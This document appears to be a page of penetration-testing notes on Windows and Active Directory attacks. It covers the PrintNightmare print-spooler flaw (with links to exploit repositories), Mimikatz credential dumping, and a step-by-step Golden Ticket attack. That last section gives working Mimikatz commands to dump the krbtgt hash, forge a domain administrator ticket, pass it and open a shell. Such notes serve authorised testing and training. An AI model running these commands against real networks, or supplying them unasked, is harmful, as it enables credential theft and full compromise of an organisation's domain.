 `CVE-2021-1675` is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."
> - This remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. 
> - An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.


***Requires latest version of Impacket.***
### Attack Methods

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable.

And follow instructions from these two repos:
- [cube0x0 RCE](https://github.com/cube0x0/CVE-2021-1675)
- [calebstewart LPE](https://github.com/calebstewart/CVE-2021-1675)

---
## Mimikatz

It's now well known to extract plaintext passwords, hash, PIN code and kerberos tickets from memory. 

`mimikatz` can also perform pass-the-hash, pass-the-ticket or build Golden tickets.

[Mimikatz](https://github.com/gentilkiwi/mimikatz)

[Mimikatz Binaries](https://github.com/gentilkiwi/mimikatz/releases)

*Do check `mimikatz wiki` for info on other modules.*

---
## Golden Ticket Attacks / Pass the Ticket

A Golden Ticket attack is when an attacker has complete and unrestricted access to an entire domain — all computers, files, folders, and most importantly, the access control system itself.

> Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain’s Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGTs) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS).


**Attack Method**
1. capture `sid of domain` and `NTLM Hash of Kerberos TGT account`
```
cmd> mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```
1. Now create Golden ticket.
```
mimikatz # kerberos::golden /User:real_or_fake_user /domain:marvel.local /sid:sid_of_domain /krbtgt:NTLM_Hash /id:500 /ptt
```
> Note : `RID 500 = Administrator` and `ptt = pass the ticket`
1. And finally pop a shell.
```
mimikatz # misc::cmd
```
